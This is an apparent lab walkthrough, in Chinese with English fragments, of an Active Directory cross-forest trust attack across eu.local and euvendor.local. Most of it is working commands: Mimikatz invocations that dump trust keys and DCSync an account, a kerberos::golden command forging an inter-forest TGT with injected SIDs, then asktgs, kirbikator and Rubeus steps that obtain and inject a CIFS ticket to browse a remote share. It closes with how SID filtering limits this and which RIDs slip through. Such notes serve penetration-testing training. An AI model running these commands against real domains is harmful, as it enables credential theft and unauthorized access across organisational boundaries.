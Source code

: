 • Note that we are hopping trusts from us.techcrop.local to eu.local to euvendor.local!（请注意，我们是在从us.techcrop.local到eu.local再到euvendor.local之间跳过信任。）


枚举林的秘钥
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

or
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

or
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

请求一个森林间的tgt
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

通过上面伪造的tgt为目标森林中的服务（下面是CIFS）获取TGS。
```
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-dc.euvendor.local
```

**其他服务的门票（如WMI的HOST和RPCSS，PowerShell Remoting和WinRM的HOST和HTTP PowerShell Remoting和WinRM）也可以被创建。**

利用上面请求到的tgs
```
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi


ls \\euvendor-dc.euvendor.local\eushare\
```

也可以使用Rubeus
```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

为什么我们不能访问林内的所有资源？


SID Filtering is the answer. It filters high privilege SIDs from the SIDHistory of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin.（答案就是SID Filtering，它从跨越森林边界的TGT的SIDHistory中过滤高权限的SID。这意味着我们不能像Enterprise Admin一样去访问信任森林中的资源。）


• But there is a catch:

S-1-5-21-<Domain>-R
R >= 1000
